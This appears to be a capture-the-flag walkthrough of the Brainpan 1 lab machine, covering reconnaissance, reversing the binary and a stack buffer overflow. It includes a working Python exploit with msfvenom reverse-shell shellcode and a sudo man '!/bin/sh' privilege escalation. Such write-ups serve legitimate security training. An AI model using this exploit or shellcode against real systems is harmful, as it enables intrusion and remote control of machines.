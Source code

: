 ```yaml
---

title: "Brainpan 1"  
date: "2025-4-15"  
thumbnail: "/assets/img/thumbnail/Brainpan1.png"

---
```


# Brainpan 1
---
**Challenges Difficulty: Hard**  
**Category: Revers**

## Walkthrough 

---
Stating with nmap to scan the machine we found a service called abyss on port 9999 a web server running on port 10000
![image.png](/assets/img/posts/Brainpan1/image%2012.png)
Opening it returns a page that has nothing interested 
![image.png](/assets/img/posts/Brainpan1/image%2013.png)
let's use dirb to discover directories 

![image.png](/assets/img/posts/Brainpan1/image%2014.png)
opening /bin we found an .exe file called Brainpan.exe lets try to download it

![image.png](/assets/img/posts/Brainpan1/image%2015.png)
let's reverse this file using Ghidra  

![image.png](/assets/img/posts/Brainpan1/image%2016.png)
so this is the one running on port 9999

![image.png](/assets/img/posts/Brainpan1/image%2017.png)
and this program takes one input from the user and returns **ACCESS DENIED** or **ACCESS GRANTED**
![image.png](/assets/img/posts/Brainpan1/image%2018.png)
Friendly advice don't waste yore time to get the correct password as its actually just a printed string
but as i have wasted my time :) so any string that starts with **s** will return **ACCESS GRANTED**
![alt text](/assets/img/posts/Brainpan1/access.png)
actually this is the vulnerable part of the code as strcpy does not check bounds. so If input is longer than 520 bytes, it will overflow local_20c
![image.png](/assets/img/posts/Brainpan1/image%2021.png)
now we want to run this exe inside a debugger to cause a BO and get the address that would be in the eip to start our exploit i will use Immunity Debugger to do so
![image.png](/assets/img/posts/Brainpan1/image%2019.png)
created a pattern using msf-pattern_create to find the exact offset
![image.png](/assets/img/posts/Brainpan1/image%2020.png)

After a looooooooooong time i realized that ncat has a max buffer size of 511 🙂 

let’s use python

```bash
import socket

# Target details
TARGET_IP = "127.0.0.1"
TARGET_PORT = 9999

# Payload (1000 'A' characters)
payload = "A" * 1000  

# Create a TCP socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    # Connect to the target
    s.connect((TARGET_IP, TARGET_PORT))
    print("[+] Connected to the target")

    # Receive banner (if any)
    response = s.recv(1024)
    print("[+] Received:", response.decode(errors="ignore"))

    # Send the payload
    s.sendall(payload.encode())
    print("[+] Sent 1000 bytes")

    # Receive response (if any)
    response = s.recv(1024)
    print("[+] Server response:", response.decode(errors="ignore"))

except Exception as e:
    print("[!] Connection failed:", str(e))

finally:
    s.close()
    print("[+] Connection closed")

```

and finaly it’s a crash

![image.png](/assets/img/posts/Brainpan1/image%2022.png)

![image.png](/assets/img/posts/Brainpan1/image%2023.png)

![image.png](/assets/img/posts/Brainpan1/image%2024.png)
As we successful caused a BO we will use mona script inside Immunity Debugger to find a jmp esp instruction address  

![image.png](/assets/img/posts/Brainpan1/image%2025.png)
created a reverse shell using msfvenom to connect to my local ip throw port 4444 and modified the script

```python
import socket
import struct
# Target details
TARGET_IP = "127.0.0.1"
TARGET_PORT = 9999

# Payload (1000 'A' characters)
offset = b"A"*524 
eip= b'\xf3\x12\x17\x31'       #311712F3  
buf =  b""
buf += b"\xd9\xc1\xba\x43\xbc\xeb\x48\xd9\x74\x24\xf4\x5d"
buf += b"\x31\xc9\xb1\x52\x31\x55\x17\x03\x55\x17\x83\x86"
buf += b"\xb8\x09\xbd\xf4\x29\x4f\x3e\x04\xaa\x30\xb6\xe1"
buf += b"\x9b\x70\xac\x62\x8b\x40\xa6\x26\x20\x2a\xea\xd2"
buf += b"\xb3\x5e\x23\xd5\x74\xd4\x15\xd8\x85\x45\x65\x7b"
buf += b"\x06\x94\xba\x5b\x37\x57\xcf\x9a\x70\x8a\x22\xce"
buf += b"\x29\xc0\x91\xfe\x5e\x9c\x29\x75\x2c\x30\x2a\x6a"
buf += b"\xe5\x33\x1b\x3d\x7d\x6a\xbb\xbc\x52\x06\xf2\xa6"
buf += b"\xb7\x23\x4c\x5d\x03\xdf\x4f\xb7\x5d\x20\xe3\xf6"
buf += b"\x51\xd3\xfd\x3f\x55\x0c\x88\x49\xa5\xb1\x8b\x8e"
buf += b"\xd7\x6d\x19\x14\x7f\xe5\xb9\xf0\x81\x2a\x5f\x73"
buf += b"\x8d\x87\x2b\xdb\x92\x16\xff\x50\xae\x93\xfe\xb6"
buf += b"\x26\xe7\x24\x12\x62\xb3\x45\x03\xce\x12\x79\x53"
buf += b"\xb1\xcb\xdf\x18\x5c\x1f\x52\x43\x09\xec\x5f\x7b"
buf += b"\xc9\x7a\xd7\x08\xfb\x25\x43\x86\xb7\xae\x4d\x51"
buf += b"\xb7\x84\x2a\xcd\x46\x27\x4b\xc4\x8c\x73\x1b\x7e"
buf += b"\x24\xfc\xf0\x7e\xc9\x29\x56\x2e\x65\x82\x17\x9e"
buf += b"\xc5\x72\xf0\xf4\xc9\xad\xe0\xf7\x03\xc6\x8b\x02"
buf += b"\xc4\x96\x4b\x0c\x15\x01\x4e\x0c\x04\x8d\xc7\xea"
buf += b"\x4c\x3d\x8e\xa5\xf8\xa4\x8b\x3d\x98\x29\x06\x38"
buf += b"\x9a\xa2\xa5\xbd\x55\x43\xc3\xad\x02\xa3\x9e\x8f"
buf += b"\x85\xbc\x34\xa7\x4a\x2e\xd3\x37\x04\x53\x4c\x60"
buf += b"\x41\xa5\x85\xe4\x7f\x9c\x3f\x1a\x82\x78\x07\x9e"
buf += b"\x59\xb9\x86\x1f\x2f\x85\xac\x0f\xe9\x06\xe9\x7b"
buf += b"\xa5\x50\xa7\xd5\x03\x0b\x09\x8f\xdd\xe0\xc3\x47"
buf += b"\x9b\xca\xd3\x11\xa4\x06\xa2\xfd\x15\xff\xf3\x02"
buf += b"\x99\x97\xf3\x7b\xc7\x07\xfb\x56\x43\x27\x1e\x72"
buf += b"\xbe\xc0\x87\x17\x03\x8d\x37\xc2\x40\xa8\xbb\xe6"
buf += b"\x38\x4f\xa3\x83\x3d\x0b\x63\x78\x4c\x04\x06\x7e"
buf += b"\xe3\x25\x03"
nop=b'\x90'*50
eof=b"\xCC"
payload= offset+eip+nop+buf+nop+eof
# Create a TCP socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the target
s.connect((TARGET_IP, TARGET_PORT))
print("[+] Connected to the target")

# Receive banner (if any)
response = s.recv(1024)

# Send the payload
s.sendall(payload)
print("[+] Sent 1000 bytes")
```

![image.png](/assets/img/posts/Brainpan1/image%2026.png)
and this worked correctly and got a reverse shell now we want to send it to the actual server **remember to recreate the reverse shell with your ip**

![image.png](/assets/img/posts/Brainpan1/image%2027.png)
and we got a shell but it seems that we are inside Sandbox/Evasion Environment 

![image.png](/assets/img/posts/Brainpan1/image%2028.png)

![image.png](/assets/img/posts/Brainpan1/image%2029.png)
now we know that we can run /home/anansi/bin/anansi_util with sudo 
![image.png](/assets/img/posts/Brainpan1/image%2030.png)
this bin gives us 3 commands that we can run
1. network
2. proclist
3. manual 

from [gtfobins](https://gtfobins.github.io/gtfobins/man/#sudo) we know that we can get a shell from man using
```bash
!/bin/sh
```
![image.png](/assets/img/posts/Brainpan1/bin.png)




